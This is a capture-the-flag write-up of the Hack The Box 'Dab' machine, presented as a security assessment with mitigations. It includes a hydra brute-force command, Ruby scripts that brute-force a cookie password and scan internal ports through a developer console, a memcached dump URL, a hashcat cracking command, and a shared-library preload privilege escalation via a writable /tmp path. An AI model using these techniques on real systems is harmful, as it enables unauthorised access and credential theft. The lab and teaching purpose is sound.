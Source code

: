 ```yaml
---
title: Hack The Box DAB Writeup Security Assessment
description: Hack the box 'DAB' writeup
date: 2019-02-03
tags: [Hack the Box, DAB]
---
```


# Introduction to the target.

Here we present a writeup of the "Dab" server and the applications it hosts. As we walk through each issue identified, we'll recommend a suitable mitigation against exploitation. A quick review of open services gives us a few targets.

## FTP
The ftp service accepts anonymous logons appears to have the single purpose of serving the organisation logo.

![Dab Logo](/media/images/dab.jpg)

### Recommendation
Although no significant issue is currently found here, in order to reduce attack surface, this service should be considered for removal.

## Web 

The web application service initially confronts a viewer with a username/password prompt. By testing several passwords, it can be identified that there is no account lockout or rate limiting in place, leading to an obvious potential for brute forcing. The following hydra script has been designed for the site in question:

```

hydra -l admin -P /usr/share/wordlists/rockyou.txt <address> http-post-form "/login:password=^PASS^&username=^USER^:failed"
```

It takes just a few minutes to identify a valid logon, and it should be stressed that the identified credentials meet strict password complexity policies. That is, it contained upper case, lower case, and numeric characters. Accordingly, such policies are not the solution to this type of problem.

## Developers console

The second service to review is the developer's console, on port 8080. This service utilises a more complex authentication system. The below custom code was built from reviewing browser interactions with the site, and will similarly brute force a valid credentials.

```ruby
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVICE:8080/"

def win(password)
  puts "Won with #{password}"
  exit
end

File.open '/usr/share/wordlists/rockyou.txt' do |f|
  f.each_line do |password|
    cookie = WebAgent::Cookie.new
    cookie.name = "password"
    cookie.value = password.chomp
    cookie.url = URL

    client = HTTPClient.new
    client.cookie_manager.add cookie
    response = client.get URL

    puts "Failed password '#{password.chomp}'"
    win(password) unless response.body.match(/Access denied/)
  end
end
```

### Recommendations
Rather than review credentials systems, the developer console could consider alternate authentication mechanisms. These could include requiring VPN access, or IP based whitelisting in addition to the existing solution.

## Utilising the developer console
The developer console can be utilised to connect to an arbitrary local port. The following script has been developed to enumerate all local services by abusing this functionality of the developer's console. This identifies access to several ports not accessible from the outside world.

```ruby
#!/usr/bin/env ruby
#
require 'httpclient'
require 'httpclient/webagent-cookie'

URL = URI.parse "http://SERVER:8080/"

def win(port)
  puts "Won with #{port}"
end

cookie = WebAgent::Cookie.new
cookie.name = "password"
cookie.value = VALUE
cookie.url = URL

1.upto TOP do |port|

  client = HTTPClient.new
  client.cookie_manager.add cookie
  response = client.get URI.parse "http://SERVER:8080/socket?port=#{port}&cmd=test"

  puts "Failed port '#{port}'"
  win(port) unless response.body.match(/500 Internal/)
end

```

The capability is not seen as a vulnerability in the developer's console, but rather as an indication the console itself requires better access control.

## Extracting a password list

The developer's console identifies a memcached service running, and accepting raw string data from that console. The following URL can be utilised to dump available cache information:

http://SERVER:8080/socket?port=11211&cmd=stats+items

[Further information regarding the memcache protocol can be reviewed here.](https://wincent.com/wiki/Testing_memcached_with_telnet)

With this background, the below script can be utilised to dump cached passwords. It is required to manually attempt to logon to the console shortly before running this script.

```ruby
#!/usr/bin/env ruby
#
require 'json'
list = File.read "userlist.json"

listj = JSON.parse(list)

listj.each_pair do |user, password|
  puts "#{user}:#{password}"
end
```

This should dump 495 username/hashed password combinations.

    hashcat64 --show dab.txt rockyou -m 0 --username

Allows for a relatively quick brute force attack on the dumped data, supplying 12 valid user credentials. Once of these is a valid SSH user.

## Privilege Escalation
Enough enumerating various paths will lead you to a SUID root binary named 'myexc'. Running it looks like this:

```
myexec
Enter password:
```

Attempting to copy the binary offsite to debug will inform you a library is required, which we can easily find:

```
$ find /usr -name libseclogin*
/usr/lib/libseclogin.so
/usr/src/libseclogin
genevieve@dab:~$ ls /usr/src/libseclogin/
seclogin.h
genevieve@dab:~$ cat /usr/src/libseclogin/seclogin.h
#include<stdio.h>
extern unsigned int seclogin();
```

ltrace happily tells us the password required to proceed.

```
 ltrace myexec
__libc_start_main(0x400836, 1, 0x7fff4a651bc8, 0x4008f0 <unfinished ...>
printf("Enter password: ")                      = 16
__isoc99_scanf(0x400985, 0x7fff4a651a90, 0x7f491a4c5780, 16Enter password: atest
) = 1
strcmp("s3cur3l0g1n", "atest")                  = 18
puts("Invalid password\n"Invalid password

)                      = 18
+++ exited (status 1) +++

```

Let's use that and see what the binary has in store for us. Note, saw above what seclogin() looks like and how exactly it responds.

```

genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

seclogin() called
TODO: Placeholder for now, function not implemented yet

```

The attacker really should be blocked at this point. Utilising an external library isn't a vulnerability on a SUID binary, since the usual LD\_PRELOAD tricks are ignored by the OS. In fact, the only place a preloaded library is accepted from is the locations defined under /etc/ld/so.conf.d. What do we see here however?

```
 cat /etc/ld.so.conf.d/test.conf
/tmp
```

At this point, we have a valid preload path, and a function we know how to call. Let's build and run a shell:

```
mine.c: In function ‘seclogin’:
mine.c:9:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
 ^
genevieve@dab:~$ myexec
Enter password: s3cur3l0g1n
Password is correct

$ whoami
genevieve
$ id
uid=1000(genevieve) gid=0(root) groups=0(root),1000(genevieve)
```

And with root access, the attacker has full control of the machine. Our recommendation in response is to move development projects off the production servers.
